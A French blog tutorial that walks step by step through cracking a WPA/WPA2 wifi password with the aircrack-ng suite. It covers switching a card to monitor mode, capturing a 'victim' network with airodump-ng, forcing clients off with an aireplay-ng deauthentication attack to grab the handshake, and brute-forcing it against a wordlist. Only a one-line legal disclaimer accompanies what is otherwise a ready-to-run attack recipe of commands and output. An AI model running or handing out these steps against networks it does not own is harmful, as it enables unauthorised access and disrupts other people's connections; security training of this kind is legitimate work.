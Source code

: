 ```yaml
---
layout: post
title:  "How to use aircrack-ng to bruteforce wifi WPA password"
---
```


# Comment bruteforce un réseau wifi WPA/WPA2 avec aircrack-ng

# Disclaimer

Ceci est dans un but purement éducatif, rentrer dans un système informatique sans l'autorisation de son propriétaire est interdit par la loi française. 

Bon tutoriel.

# Matériel 

Pour ce tutoriel il faut:

- Être sous une distribution Linux
- Avoir une carte réseau wifi
- Une [Wordlist](https://weakpass.com/wordlist) (liste de mots contenants des mots de passe)

# Installation

Vous pouvez trouver comment installer aircrack-ng directement sur le dépot officiel de aircrack-ng : -> [ici](https://github.com/aircrack-ng/aircrack-ng)​

En fonction de votre distro:

- basée sur Debian (Ubuntu/Mint): `sudo apt-get install aircrack-ng`
- Fedora:  `sudo dnf install aircrack-ng`
- Arch Lnux: `sudo pacman -S aircrack-ng`

Une fois installé vous pouvez retrouver la suite d'outils aircrack-ng sur votre ordinateur.

(pour cet exemple j'ai écrit le mot "air" et utilisé l'autocomplétion pour voir tous les outils de la suite)

```
root@yourid:~$ air
airbase-ng              aireplay-ng             airolib-ng
aircrack-ng/            airmon-ng               airserv-ng
airdecap-ng             airodump-ng             airtun-ng
airdecloak-ng           airodump-ng-oui-update  airventriloquist-ng

```
# Managed to Monitor

Par default votre carte wifi est en mode **Managed**, ce qui vous permet de recevoir la connexion internet.

Nous allons passer la carte wifi en mode **Monitor**, qui permet d'observer et d'envoyer des signaux.

Pour ceci il faut tout d'abord identifier le nom de sa carte wifi, en utilisant la commande `iwconfig`:

```
root@yourid:~$ iwconfig
wlp00s0   IEEE 802.11  ESSID:"Wifi-ESSID"  
          Mode:Managed  Frequency:5.18 GHz  Access Point: XX:XX:XX:XX:XX:XX   
          Bit Rate=666.0 Mb/s   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=70/70  Signal level=-40 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:37  Invalid misc:2628   Missed beacon:0

```
Le nom de la carte wifi est donc : `wlp00s0`

Nous allons utiliser l'outil `airmon-ng` qui permet justement de changer la carte wifi en mode monitor

```
root@yourid:~$ airmon-ng start [nom de la carte wifi]
```

**pro tip**: il est possible que cette commande fonctionne pas, il y a plusieures possibilitées:
 - Le message `Run it as root`: il faut avoir les droits super utilisateur (root).
 - Un message d'aide s'affiche: vous n'avez surment pas mis le bon nom de la carte wifi
 - Un message d'erreur s'affiche: il se peut que des processus peuvent perturber l'opération, dans ce cas il faut faire la commande `airmong-ng check kill`
 - Cela ne marche pas, il est possible que votre carte wifi n'est pas compatible avec le mode monitor

Une fois cette étape terminée, vous n'avez plus de connexion internet, **c'est normal**.

Nous allons vérifier si la carte wifi a bien été mise en mode monitor:

```
root@yourid:~$ iwconfig
wlp00s0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=0 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

On peut voir que le nom de la carte wifi a changé pour rajouter 'mon' derniere son nom.

# Scanner et trouver une victime

Nous allons scanner les réseaux wifi aux alentours et utiliser l'outil `airodump-ng`, un outil de capture de paquets wifi.

```
root@yourid:~$ airodump-ng [nom de la carte wifi]
```
**attention de pas oublier le `mon` derriere le nom de votre catre wifi** :)

![airodump](../../../assets/airodump.png)

Sur cette image le nom de mon réseau wifi est **IEWYUAH**.

Plusieures informations sont affichées, telles que:
- **BSSID** (Basic Service Set Identifiers) : Addresse MAC du routeur.
- **PWR** (Power) : Puissance du signal
- **#Data** : Données transmises
- **#/s** (S pour speed): Rapidité d'envoi des données
- **CH** (pour channel): Canal wifi
- **ENC** (pour encryption): Infos sur le protocole de chiffrement
- **AUTH** : Infos sur le type d'authentification
- **ESSID** (Electronic Service Set Identifiers) : Nom du réseau wifi

```
root@yourid:~$ airodump-ng –c[id channel de votre victime] -w [nom du fichier de capture (qui va être crée)] -d [BSSID de votre victime] [nom de votre carte wifi]
```
**pro tip**: Il est possible qu'un message d'erreur s'affiche, c'est surment dû au canal de votre carte wifi. 
On peut voir sur l'image en dessous en haut a gauche, au dessus du BSSID il y a écrit `CH 1`: votre carte wifi change de canal. 
**Il ne faut pas hésiter a relancer la commande plusieurs fois avant que celle ci marche !**

![airodump-cpt](../../../assets/airodump-cpt.png)

`STATION` correspond à l'adresse MAC de la personne connectée

**Attention**: A partir de ce moment, vous êtes en train d'enregister des captures réseaux sur votre ordinateur, il ne faut donc pas fermer votre terminal sous peine de stopper la capture réseaux.


# Get the handshake

Pour pouvoir réussir a intercepter le mot de passe wifi de votre victime, il faut capturer le *handshake*. 
Le handshake (poignée de main en français) est l'échange de validation entre le client et le routeur.

Nous allons utiliser `airplay-ng` pour injecter des paquets à une ou plusieurs machines sur le réseau pour les forcer à se déconnecter (Attaque par déni de service).

```
root@yourid:~$ aireplay-ng --deauth 0 –a [BSSID de votre victime] -c [Adress MAC d'un apareil connecté au réseaux de la victime] [nom de votre carte wifi]​
```

Quand la machine victime va se reconnecter aux réseau automatiquement vous allez récuperer le handshake.
Une fois l'attaque lancée vous pouvez la stopper quand vous le désirez.

# Le bruteforce !

Une fois le handshake capturé, vous pouvez remettre votre carte wifi en mode managed.

```
root@yourid:~$ airmon-ng stop [nom de votre carte wifi]
```

Si vous refaites la commande `iwconfig`, vous allez remarquer que votre carte wifi a repri son nom initial.

Pour la dernière étape nous allons essayer de comparer le hash du handshake au hash d'une liste de mots de passe, si cette opération réussie nous avons le mot de passe du wifi victime.

```
root@yourid:~$ aircrack-ng [nom du paquet réseaux capture (files.cap)] -w [wordlist]
```

Si le mot de passe est présent dans la wordlist:

Dans mon cas, j'ai testé en rajoutant le mot de passe a la fin d'une wordlist de 7000 mots de passe, cela m'a prit moins de 5 secondes pour le trouver.

![aircrack-get-passwd](../../../assets/aircrack-get-psswd.png)

Dans le cas contraire:

![aircrack-fail](../../../assets/aircrack-fail.png)

# Conclusion 

Voici une méthode pour cracker les mots de passe wifi, en informatique rien n'est magique.


# Remerciements

Merci beaucoup d'avoir lu mon tutoriel, j'éspere que ça vous à plu!

Si vous avez des retours, n'hésitez pas à m'envoyer un mail :smiley:

